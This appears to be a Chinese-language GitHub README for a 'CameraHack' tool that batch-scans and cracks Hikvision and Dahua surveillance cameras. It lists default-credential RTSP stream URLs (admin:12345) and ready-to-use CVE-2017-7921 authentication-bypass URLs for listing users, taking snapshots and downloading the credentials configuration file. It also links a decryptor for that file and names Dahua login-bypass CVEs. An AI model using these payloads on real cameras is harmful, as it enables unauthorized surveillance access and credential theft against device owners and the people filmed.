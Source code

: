# CameraHack
批量扫描破解海康威视、大华等摄像头的常见漏洞。

## 海康威视

### RTSP 弱密码

```shell
# 主码流
rtsp://admin:12345@IP:554/h264/ch1/main/av_stream
rtsp://admin:12345@IP:554/MPEG-4/ch1/main/av_stream

# 子码流
rtsp://admin:12345@IP/mpeg4/ch1/sub/av_stream
rtsp://admin:12345@IP/h264/ch1/sub/av_stream
```

### CVE-2017-7921 漏洞

1. 检索设备列表
```
http://IP/Security/users?auth=YWRtaW46MTEK
```

2. 获取监控快照
```
http://IP/onvif-http/snapshot?auth=YWRtaW46MTEK
```

3. 下载摄像头配置账号密码文件
```
http://192.168.1.3/System/configurationFile?auth=YWRtaW46MTEK
```
- 浏览器会自动下载一个名为 `configurationFile` 的文件,需要经过解密。  
  Payload: [https://github.com/chrisjd20/hikvision_CVE-2017-7921_auth_bypass_config_decryptor](https://github.com/chrisjd20/hikvision_CVE-2017-7921_auth_bypass_config_decryptor)

- 需要一个工具 `wxMEdit` 打开解密后的配置文件,搜索关键字 `admin`.

## 大华摄像头
> 漏洞利用 `CVE-2021-33044` & `CVE-2021-33045` , 绕过 web 登录鉴权
